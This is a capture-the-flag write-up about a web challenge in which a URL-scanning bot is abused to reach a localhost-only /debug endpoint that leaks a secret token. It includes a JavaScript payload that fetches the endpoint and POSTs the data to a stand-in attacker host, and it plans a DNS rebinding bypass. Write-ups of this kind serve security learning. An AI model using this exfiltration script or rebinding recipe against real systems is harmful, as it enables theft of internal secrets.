




## Intro

This challenge allows you to submit a URL to be "scanned" by a bot on the challenge server.
The flag is shown in the webapp once you have successfully accessed the appropriate page with the credentials of the "Overseer" user.

## Foothold

One of the first things I noticed in the source code, was the `/debug` and `/register` endpoint.
The `/debug` endpoint caught my attention because it could reveal the secret `REFERRAL_TOKEN` value which is required to register via `/register` as the higher privilege `researcher` type of user.

```js
// challenge/index.js

app.get("/debug", util.isLocalhost, (req, res) => {
    let utils = require("util");
    res.end(
        Object.getOwnPropertyNames(global)
        .map(n => `${n}:\n${utils.inspect(global[n])}`)
        .join("\n\n")
    );
});
```

When accessed via a GET request from localhost, it responds with a detailed inspection of all properties of the global object in Node.js.
It's a way to inspect the global environment for debugging purposes.
In all honesty, at this point I couldn't see how I could leverage this to get the flag, but it seemed like a good step up since I was obtaining higher permissions.
This is probably something I need to work on for the future.
This is clearly SSRF, but we can't see the output of the response, so we also need to combine it with a way to exfiltrate the response.
So then my next thought was to submit a URL I control.
The URL will contain a webpage that contains a script that will make a request to the `/debug` endpoint, and then submit the response from that request back to my own web server.

I hosted a web page on an EC2 instance, and had the following script run on it:

```javascript
function fetchData() {
  return fetch('http://localhost/debug')
    .then(response => {
      if (!response.ok) {
        throw new Error('Network response was not ok');
      }
      return response.text(); // Return the response as text
    })
    .catch(error => {
      console.error('Error fetching data:', error);
    });
}

// Function to send a POST request to `http://attacker.com/` with the fetched data after a delay of 3 seconds
function sendDataWithDelay(data) {
  setTimeout(() => {
    fetch('http://attacker.com/', {
      method: 'POST',
      headers: {
        'Content-Type': 'text/plain'
      },
      body: data
    })
    .then(response => {
      if (!response.ok) {
        throw new Error('Network response was not ok');
      }
      console.log('Data sent successfully');
    })
    .catch(error => {
      console.error('Error sending data:', error);
    });
  }, 3000); // Delay of 3 seconds (3000 milliseconds)
}

// Usage: Fetch data and then send it after a delay of 3 seconds
fetchData()
  .then(data => {
    if (data) {
      sendDataWithDelay(data);
    }
  });
```

This somewhat worked, but I wasn't able to receive the request to exfil.



This request could have gotten blocked due to the CORS policy, and upon some research it seemed that `http.server` does not allow controlling the `CORS` header from the commandline.
However, it is possible with a little scripting and help from [stackoverflow](https://stackoverflow.com/questions/21956683/enable-access-control-on-simple-http-server)

Then we can verify it worked with burpsuite.
I blurred out the IP address of my EC2 instance since I don't want it getting touched :).

   

However, the POST request never went out.
This was again due to the CORS policy on my local `http.server` not havint the correct value, which then made me look into what the CORS and CSP policy was on the actual challenge.

```javascript
app.use((req, res, next) => {
    // no XSS or iframing :>
    res.setHeader("Content-Security-Policy", `
        default-src 'self';
        style-src 'self' https://fonts.googleapis.com;
        font-src https://fonts.gstatic.com;
        object-src 'none';
        base-uri 'none';
        frame-ancestors 'none';
    `.trim().replace(/\s+/g, " "));
    res.setHeader("X-Frame-Options", "DENY");
    next();
});
```

I couldn't find anything to indicate what the CORS policy was so I assumed it was set as the default Same Origin Policy.
My testing also implied this, so now is the time to think of how to bypass it.

### CORS

CORS is a policy defined by the web server that determines what requests it will accept.
If you intercept a response from a web server with a CORS policy you will see the header:

```
Access-Control-Allow-Origin: *
```

This header can have multiple values to specify multiple domains, or a wildcard as shown above, or a `null` value.
It makes sense too because a site that holds private information probably doesn't want to share information to applications outside of its domain.
Anyways, there are 2 parts to CORS.
There is a preflight request that happens from the client to the web server to ensure that the cross-site request is allowed, and then the actual request.
However these only happen when non-standard requests are made I think, or when you need to read the headers or data of the response (TODO: Verify this)

### SOP

Same Origin Policy is similar to CORS, but it is enforced by the browser.
This policy just makes it so that a client can only request resources from the same origin, that is the same: **protocal**, **domain**, and **port**.
For example: a request from https://foo.com to http://foo.com wouldn't work because there is a different protocol between the two addresses.

### Bypass

So the problem here is that our site, lets call it `http://attacker.com` is trying to make a request to `http://localhost/debug`, but because the domain, and the port are different then the request is not allowed by the bot's browser.

And our goal is for the bot to visit our page, our page sends a request to the local server address of the challenge site, and then our page posts that request to us at another endpoint.



Enter DNS Rebind.
While searching for bypasses on hacktricks, I came across this method.
The attack relies on changing the IP address for a domain (rebinding it), very quickly, sort of like a race condition.
How does that help us here?
Well in the source code for the bot, we can see that it doensn't perform all its actions immediately, there are delays.
So the problem is that the client is making a request to `http://localhost/debug` from `http://attacker.com`, which gets blocked.
But what if during the delay between the bot visiting the attacker site, and then timing out, we rebind the address for `http://attacker.com` to instead point to `127.0.0.1`?

1. So the bot visits `http://attacker.com`, which will resolve to our real address (lets say it is `1.3.3.7`).
2. We rebind `http://attacker.com` to `127.0.0.1`, WHILE the bot still has the page loaded in their browser.
3. Then our script will run, and will send a request to `http://attacker.com/debug`, which is now actually `http://127.0.0.1/debug`, successfully grabbing the environment data that we need.
4. Then we make a post request to `http://1.3.3.7/exfil` containing the response to `http://attacker.com/debug` (actually `http://127.0.0.1/debug`), (and we set our CORS policy to allow requests from any domain), which successfully exfils the data to us.

A key element to making this attack work is having a low TTL on the DNS response, so the browser is forced to ask for the address twice.

I decided to use this [dns rebind site](https://lock.cmpxchg8b.com/rebinder.html) to facilitate the attack.
The first address will be that of my EC2 instance, and the second will be `127.0.0.1`.
Then we just need to run the attack a few times until we get the elements to line up properly.